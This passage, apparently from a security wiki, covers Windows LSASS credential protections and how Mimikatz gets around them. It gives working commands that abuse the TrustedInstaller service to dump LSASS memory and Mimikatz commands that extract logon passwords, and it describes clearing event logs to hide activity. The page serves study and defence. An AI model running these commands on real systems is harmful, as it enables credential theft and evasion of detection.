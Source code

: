 From Windows 8.1 and Windows Server 2012 R2 onwards, significant measures have been implemented to safeguard against credential theft:

- **LM hashes and plain-text passwords** are no longer stored in memory to enhance security. A specific registry setting, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ must be configured with a DWORD value of `0` to disable Digest Authentication, ensuring "clear-text" passwords are not cached in LSASS.

- **LSA Protection** is introduced to shield the Local Security Authority (LSA) process from unauthorized memory reading and code injection. This is achieved by marking the LSASS as a protected process. Activation of LSA Protection involves:
    1. Modifying the registry at _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ by setting `RunAsPPL` to `dword:00000001`.
    2. Implementing a Group Policy Object (GPO) that enforces this registry change across managed devices.

Despite these protections, tools like Mimikatz can circumvent LSA Protection using specific drivers, although such actions are likely to be recorded in event logs.

### Counteracting SeDebugPrivilege Removal

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration:

```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```

This allows the dumping of the `lsass.exe` memory to a file, which can then be analyzed on another system to extract credentials:

```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```

## Mimikatz Options

Event log tampering in Mimikatz involves two primary actions: clearing event logs and patching the Event service to prevent logging of new events. Below are the commands for performing these actions:

#### Clearing Event Logs

- **Command**: This action is aimed at deleting the event logs, making it harder to track malicious activities.
- Mimikatz does not provide a direct command in its standard documentation for clearing event logs directly via its command line. However, event log manipulation typically involves using system tools or scripts outside of Mimikatz to clear specific logs (e.g., using PowerShell or Windows Event Viewer).

#### Experimental Feature: Patching the Event Service
